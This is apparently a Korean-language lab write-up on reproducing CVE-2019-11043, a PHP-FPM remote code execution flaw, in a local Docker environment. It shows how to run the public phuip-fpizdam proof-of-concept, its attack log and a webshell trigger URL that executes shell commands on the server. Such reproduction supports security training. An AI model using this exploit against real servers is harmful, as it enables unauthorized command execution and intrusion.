


# PHP-FPM Remote Command Execution (CVE-2019-11043)

작성자: WHS 1기 14반 전성현_6898

2019년 Real World CTF 예선에서 발견된 PHP 원격 코드 실행 0-Day 취약점
- 취약 버전: 7.3.11, 7.2.24 미만 버전

참조:

- https://bugs.php.net/bug.php?id=78599
- https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
- https://github.com/neex/phuip-fpizdam

## 환경 구성

취약한 PHP 서버를 다음과 같은 명령어로 실행:

```
docker compose up -d
```

실행한 서버는 다음과 같은 명령어로 접속 가능 `http://your-ip:8080/index.php`.

### 에러 조치 방법
```
docker.errors.DockerException: Error while fetching server API version: HTTPConnection.request() got an unexpected keyword argument 'chunked'
```
위와 같은 에러로 인해 docker compose up이 불가능하다면 
```
sudo pip3 install --force-reinstall 'requests<2.29.0' 'urllib3<2.0'
```
해당 명령어를 통해 Trouble Shooting 가능

참조:
- https://forum.checkmk.com/t/docker-plugin-not-working-on-ubuntu-20-04/38568
- https://github.com/docker/docker-py/issues/3113 


## 취약점 재현

취약점 재현을 위해 다음과 같은 툴을 사용, <https://github.com/neex/phuip-fpizdam>:
- 파일 실행 시 공격 대상 정보를 인자 값으로 설정해주는 POC 스크립트
- go 언어 설치 필요

```
user@user:~/go/bin$ ./phuip-fpizdam http://your-ip:8080/index.php
2023/10/31 19:43:43 Base status code is 200
2023/10/31 19:43:43 Status code 502 for qsl=1800, adding as a candidate
2023/10/31 19:43:43 The target is probably vulnerable. Possible QSLs: [1790 1795 1800]
2023/10/31 19:43:43 Attack params found: --qsl 1795 --pisos 248 --skip-detect
2023/10/31 19:43:43 Trying to set "session.auto_start=0"...
2023/10/31 19:43:43 Detect() returned attack params: --qsl 1795 --pisos 248 --skip-detect <-- REMEMBER THIS
2023/10/31 19:43:43 Performing attack using php.ini settings...
2023/10/31 19:43:43 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2023/10/31 19:43:43 Trying to cleanup /tmp/a...
2023/10/31 19:43:43 Done!
```


위 과정이 정상적으로 처리되었을 때의 결과 화면:



웹쉘(webshell)은 PHP-FPM의 백그라운드에 작성되며, RCE(원격 코드 실행)를 트리거하려면 `http://your-ip:8080/index.php?a=id`를 url에 입력:


